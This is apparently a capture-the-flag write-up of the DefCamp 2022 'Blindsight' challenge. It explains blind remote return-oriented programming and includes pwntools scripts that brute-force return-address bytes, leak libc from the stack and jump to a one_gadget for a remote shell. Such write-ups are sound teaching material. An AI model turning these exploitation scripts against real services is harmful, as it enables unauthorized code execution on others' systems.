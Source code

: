 #### **Blindsight**,


was a pwn challenge from DefCamp 2022.

I got first blood on it (I played with Water Paddler).

It was a classic blind remote rop, with no binaries.

![](https://github.com/nobodyisnobody/write-ups/raw/main/DefCamp.CTF.2022/pwn/blindsight/pics/fuzz.gif)

Well, basicall we first have to find the size of the buffer overflow, if we send more than 88 bytes for input, the program will crash, and the LSB of the return address will be overwritten.

Then we write a little script that send all value between 0 to 255 for the lsb and see that various functions we can reach.. what is their output, etc...

a script like this can do the job.. (nothing complicated)

```python3
from pwn import *

for i in range(256):
  p = connect('34.159.129.6', 30550)
  print('trying char: '+hex(i))
  p.sendafter('friend?\n' , 'A'*88+chr(i))
  try:
    print(hexdump(p.recv(timeout=2)))
  except:
    print('.')
  p.close()
```

Ok let's see what we get bruteforcing the LSB of the return address,

case LSB =:
* 0x0a   --> print message 'No password for you!\n'
* 0x0c   --> print message 'No password for you!\n'
* 0x0e   --> print message 'Do not dump my memory!\n'
* 0x13  --> leak a part of the stack (we can see libc and stack addresses in it...)
* 0x1a   --> print message 'No password for you!\n'
* 0x1f  --> leak a part of the stack (we can see libc and stack addresses in it...)
* 0xbb --> print message 'Are you blind my friend?\n'

ok that's the result of out first quick fuzzing..

ok what is the next step?

well we know LSBs that return us messages, let's choose one of them,  0xBB for example.. and let's bruteforce the next LSBs in the return address..

we modify a bit the script above..and start again..

```python3
from pwn import *

for i in range(256):
  p = connect('34.159.129.6', 30550)
  print('trying char: '+hex(i))
  p.sendafter('friend?\n' , 'A'*88+p8(0xbb)+chr(i))
  try:
    print(hexdump(p.recv(timeout=2)))
  except:
    print('.')
  p.close()
```

ok we found that the second byte that come next is 0x07

we do the same for the third byte, and found that it is 0x40

So it gives us an address 0x4007bb.

That tell us two things,  that the binary is 64bit linux binary, and that it is non-PIE , the program binary is mapped at a fixed address,

that will make us things more simple...

so what's next..?

Well next step for this kind of challenge , is to find the libcsu gadget, that is almost always present inf 64bit binaries produced by gcc.

if you don't know what it the csu gadget, you can read this explanation for example (or google for: "libcsu gadget", "ret2csu" )

[https://gist.github.com/kaftejiman/a853ccb659fc3633aa1e61a9e26266e9](https://gist.github.com/kaftejiman/a853ccb659fc3633aa1e61a9e26266e9)

the libcsu gadget is often near the end of the binary, and it allows us to call a function inside the program, and to set the registers rdi, rsi, rdx..

the libcsu gadgets is in two part, one part set the registers,  it is a gadget that does:  pop rbx / pop rbp/pop r12/ pop r13 / pop r14 / pop r15 / ret

so 6 times pop, and a ret.

The second part set registers for the calling and call a function:    mov rdx, r15   /  mov rsi, r14 / mov edi, r13d / call qword[r12+rbx*8] , etc....

The second part with the "6 times pop" and ret, is easy to find once you know an address that return some sort of message, text.. (0x4007bb in our case..)

knowing that theses gadgets are at the end of the binary, we will start scanning from addresses a little after the one we found,

and send a ROP payload like this:  p64(address.tested) + p64(0xdeadbeef)*6 + p64(0x4007bb)

when address tested will be the correct address of the 6xpop gadget,  0x4007bb our function that print a message will be executed.. and we will receive a message in return..

if we receive nothing, we increase the tested adress...and so on... until we found the 6 x pop gadget


That's the "classic way".

When you know the "6 x pop" gadget address,  you can deduce easily the address of the second libcsu gadget that calls the function..

then with the knowledge of our 2 libcsu gadget, we will scan for a got entry of a puts, or a write, or a printf for example.. these got entries around the same addresses..

depending if the program is full relro, half relro.. etc...

then when you find one printf, or puts, or a write function,  you can dump whatever memory address you want.

You then dump the entire binary... analyse it...exploit it...and that's all...

It's a bit time consuming ... but the whole process works well...



Well, the "classic way" did not work for me, I did not found the "6 x pop" gadget...

So I started scanning the program functions before those I found.. addresses before 0x4007bb

and BINGO.. I found this address at 0x4006fb,

that returns me a part of the stack, and go back to the input, awaiting for our second payload ... perfect !

![](https://github.com/nobodyisnobody/write-ups/raw/main/DefCamp.CTF.2022/pwn/blindsight/pics/function.png)

so... what we have on stack ?

looking at the returned addresses with an experienced eye.. we can see what is probably a libc address at offset 0x10

probably two stack addresses at offsets 0x18 and 0x20

another libc address at 0x38 probably...

The libc is given in this challenge, and that will help us.

Let's start with the first libc address that ends with 620, and see what this could be...

![](https://github.com/nobodyisnobody/write-ups/raw/main/DefCamp.CTF.2022/pwn/blindsight/pics/readelf.png)

well ̀ ```__IO_2_1_stdout_``` seems a good candidate, it's at offset 0x3c5620..

so the plan:

* Send a first payload that calls 0x4006fb function, and calculate libc address with the leaks we got in return
* Send a second payload, with the address of a onegadget from libc-2.23.so... and enjoy..


let's give it a try...

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

libc = ELF('./libc-2.23.so')

host, port = '34.159.129.6', '30550'

p = remote(host,port)

# address that return us a chunk of stack, and ask input again (find by bruteforcing address)
test = 0x4006fb

payload = 'A'*88+p64(0x4006fb)

p.sendafter('friend?\n' , payload)

buff = p.recv()
# get libc leak from stack
leak = u64(buff[0x10:0x18])
libc.address = leak - 0x3c5620
print('libc base (could be): '+hex(libc.address))

print(hexdump(buff))

onegadgets = one_gadget('libc.so.6', libc.address)

payload = 'A'*88+p64(onegadgets[1])
p.send(payload)

p.interactive()
```

![](https://github.com/nobodyisnobody/write-ups/raw/main/DefCamp.CTF.2022/pwn/blindsight/pics/gotshell.gif)

and that's all...

*nobodyisnobody still pwning things..* (you know that little colorfull characters that move on screen...)

